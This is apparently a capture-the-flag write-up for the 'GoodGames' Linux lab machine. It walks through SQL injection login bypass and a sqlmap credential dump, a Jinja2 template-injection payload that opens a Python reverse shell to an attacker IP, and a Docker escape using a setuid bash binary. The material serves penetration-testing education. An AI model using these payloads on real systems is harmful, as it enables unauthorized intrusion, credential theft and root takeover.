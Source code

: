 # GoodGames
## OS: Linux
## Difficulty: Easy


## Enumeration:

I'll start with a port scan:
```bash
# TCP ports
nmap -sC -sV -p- 10.129.57.169 -oN nmap.txt

Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-23 15:17 EET
Nmap scan report for 10.129.57.169
Host is up (0.049s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.9.2)
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2

#UDP ports
sudo nmap -sU -sV -p- 10.129.57.169
```

Let's take a look at the HTTP server.

![index](images/img1.png)

I'll use dirsearch to find more pages.

```bash
dirsearch -u http://10.129.57.169/

[15:52:22] Starting:
[15:52:32] 200 -   43KB - /blog
[15:52:38] 200 -    9KB - /login
[15:52:39] 302 -  208B  - /logout  ->  http://10.129.57.169/
[15:52:43] 200 -    9KB - /profile   
[15:52:44] 403 -  278B  - /server-status/   
[15:52:44] 403 -  278B  - /server-status
[15:52:45] 200 -   33KB - /signup
```

I'll make a dummy account.

```
phm@gmail.com
phm
phm1234
```

On the "/blog" page we can find 3 different username.
```
Hitman
Witch Murder
Wolfenstein
```

We can also access the page of one of these blogs. 
```
http://10.129.57.169/blog/1
```

We can see that the admin is active in the comment section.

![admin-com](images/img2.png)

With what we found now we can try 3 things:
- test the login page for SQLi
- An XSS payload
- Path traversal through this endpoint


I'll open up BurpSuite to do this.

![SQLi](images/img3.png)

And it worked. We now have an admin session cookie. We now have access to an admin panel. But we'll need to add the subdomain we are redirected to, to our hosts file.

![subDom](images/img4.png)

![indexSubdomain](images/img5.png)

Trying to access index.html we get this:

![access-denied](images/img6.png)

And we can access the "/login" page.

We know there is an SQLi vulnerability on the goodgames.htb page. I'll extract credentials using sqlmap.

After playing around with it, I found what I was looking for.
```bash
sqlmap -r req.txt --dbs --batch -D main -T user --dump

[2 entries]
+----+---------------------+--------+----------------------------------+
| id | email               | name   | password                         |
+----+---------------------+--------+----------------------------------+
| 1  | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
| 2  | phm@gmail.com       | phm    | c63e3d7f3faa8826f9f4dc8a7711eb1c |
+----+---------------------+--------+----------------------------------+
```

I used CrackStation to find the password.

```
admin : superadministrator
```

We can use these credentials for the subdomain we found earlier.

![subDomPan](images/img7.png)

## Exploitation:

Playing around the pages I found an SSTI vulnerability in the settings page.

![SSTI](images/img8.png)

We can use this to get a shell on the target.

Payload:
```python3
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.65\",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```

On host:
```bash
nc -lnvp 6666
```

We got a shell.
```bash
nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on 10.129.57.169 57458
/bin/sh: 0: can't access tty; job control turned off
# 
```

I found a folder of a user named "augustus" on the target. That folder contains the user flag.
```bash
cd /home
ls
cd augustus
cat user.txt
```

### We got the user flag!

## Privilege Escalation:

A quick "whoami" reveals something interesting.
```bash
whoami
root

python -c 'import pty; pty.spawn("/bin/bash")' #upgrade shell
```

I didn't find the root flag. This is most likely a docker container. We have a possible user on the host machine called august. 

Running "ls -la" confirms this.

```bash
root@3a453ab39d3d:~# ls -la /
ls -la /
total 88
drwxr-xr-x   1 root root 4096 Nov  5  2021 .
drwxr-xr-x   1 root root 4096 Nov  5  2021 ..
-rwxr-xr-x   1 root root    0 Nov  5  2021 .dockerenv
```

I'll try to connect to the host via SSH.

```bash
ssh augustus@172.19.0.1 
superadministrator
```

And it worked. Going to the home directory of augustus we can see the same user.txt file. There might be a mirror effect on this directory. 
I'll start another shell with the docker and test it.

```bash
# On docker
touch test

# On docker host
augustus@GoodGames:~$ ls
test  user.txt
```


Well, I was right. There is a connection between the 2 directories. And the bitmask of the file remains the same.
```bash
augustus@GoodGames:~$ ls -la
ls -la
total 24
drwxr-xr-x 2 augustus augustus 4096 Jan 24 11:47 .
drwxr-xr-x 3 root     root     4096 Oct 19  2021 ..
lrwxrwxrwx 1 root     root        9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus  807 Oct 19  2021 .profile
-rw-r--r-- 1 root     root        0 Jan 24 11:47 test
-rw-r----- 1 root     augustus   33 Jan 23 21:46 user.txt
```


So we can copy a shell in the container, run the binary on the host and get a shell as the root user.

```bash
# On docker:
cp /bin/bash /home/augustus
chmod 4777 bash

# On docker host:
./bash -p # don't drop the privileges
./bash: error while loading shared libraries: libtinfo.so.5: cannot open shared object file: No such file or directory
```

So the bash binary on the docker is old. We can try copying the bash binary from the host to the target folder, changing it's owner and running it.

```bash
# On docker host:
cp /bin/bash .

# On docker:
chown root:root bash
chmod 4777 bash

# On docker host:
./bash -p

bash-5.1# whoami
whoami
root

```

We can now get the root flag.
```bash
cat /root/root.txt
```

### We got the root flag!
